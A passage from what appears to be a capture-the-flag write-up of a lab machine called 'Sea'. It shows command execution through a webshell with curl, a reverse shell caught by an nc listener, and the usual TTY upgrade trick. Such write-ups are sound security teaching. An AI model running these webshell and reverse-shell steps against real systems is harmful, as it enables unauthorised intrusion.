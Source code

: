 ```

oxdf@hacky$ curl http://sea.htb/themes/theme223/cmd.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Shell

To get a shell, I’ll replace `id` with a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw). I’ll write it out in the Firefox address bar, as it will take care of URL-encoding bits for me. I will need to use `%26` instead of `&` so that it doesn’t think it’s the separator for a new parameter:

![image-20240811140414115](/img/image-20240811140414115.png)

On submitting, I get a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.28 40808
bash: cannot set terminal process group (1151): Inappropriate ioctl for device
bash: no job control in this shell
www-data@sea:/var/www/sea/themes/theme223$ 

```

I’ll upgrade with the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

www-data@sea:/var/www/sea/themes/theme223$ script /dev/null -c bash
Script started, file is /dev/null
www-data@sea:/var/www/sea/themes/theme223$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@sea:/var/www/sea/themes/theme223$

```

## Shell as amay

### Enumeration

#### Users

There are two users with home directories in `/home`:
